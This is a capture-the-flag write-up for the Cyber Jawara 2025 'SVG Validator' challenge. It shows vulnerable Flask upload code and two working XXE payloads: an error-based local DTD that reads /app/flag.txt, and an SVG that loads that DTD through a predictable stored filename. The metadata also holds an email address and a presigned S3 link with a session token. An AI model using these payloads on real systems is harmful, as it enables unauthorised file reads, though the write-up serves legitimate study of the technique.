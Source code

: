 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466ZKJ6UGN6%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T210326Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjED0aCXVzLXdlc3QtMiJIMEYCIQCzgcP35rwbl7b1IA%2FEpxX6W8%2FvDrywJXaWJ94ArmUrGQIhAJUVwkdduiaDeBH3TFD0C4atCJgig8ZjvF50K3LpbrVQKogECPb%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgxJ6FSscWm1SyC%2BRuMq3AOB%2BzdyHjBdIRwgR04y8tVUlZBqXpVyUI7IexTejsdH8QrwYvnfPon4IYPyX026lHyrl7aWTFK1VielSfiisb0%2BkiQnXIaAZw19wgdI0BrhePQtksKbDVjB%2FyJHJXbqLM4GQ1egKq6uHDXKLSN5rRm4g%2F2fZZ4HDELd2jisHcxhikSNKE9R4ZMDJaSH4GLu6mlCEfQfb9fSVwjJ3uwfxfDEC2EW7iOBdFU2Ut6IHXt2r%2Brb2VzAKs1QMQJcc0lDSCgu5%2FrjicDS%2BvjWamrlZfE80iX2sEOQ07QE4AmA0N7WUdsv95mSUVBZ3BVBPuQ18QiyITE1tZxsoUFghy9HASMpgZSvkRjk5RJ0%2FXu9vm24IT%2BoQwAueYKHDxIWb23yBMfL99qhOFuJLR7n%2Bn9lrY4zqGVKjdF2HV5tzMQYcT604VgxQD2PESKko2QN1nc5qV3a33Jty%2FFJDY8CIrZZC7P6qpTPlJsmAKJEDrKE1Gcg%2FfQ9CM%2BeU9A4Ens1LnHcpOHDHY5XsFBedg1rUY1p4nixlhXQJhDzKAqyKlzl%2FlVEODW8J0niUbCL1CY1%2Fr7KQ7JPL9kliMmpSp%2F3PuvniAc%2Bd5asLKKNabW61w8s8jeI7jX%2FjrlOuOM%2Bz98HNTDsvcPBBjqkAXinrpEnZisQIzIG8i61KGyH0lZEqYMlZtx2TQL3jNQgRUSYsyKsWhOKXK6ap07bgupU3XXNEiI6nF2cflu%2F%2FyID6qYIMBqXhnCq16xjAKH8V5mjh9B10AwD30YHytyOwi7fx9CQCAF7P9cjPdNK%2BBiKjjrUidwOQ%2FoZ8J%2FbXP0KlRP6v%2FK2duEpFdq%2B3iVXCKDwnUTBMDCljHkgqWWOmkb0Of9I\&X-Amz-Signature=148f3090ed377626955cb1f1fc06fe5239443c098c61b2b512272c635f0bbc5d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
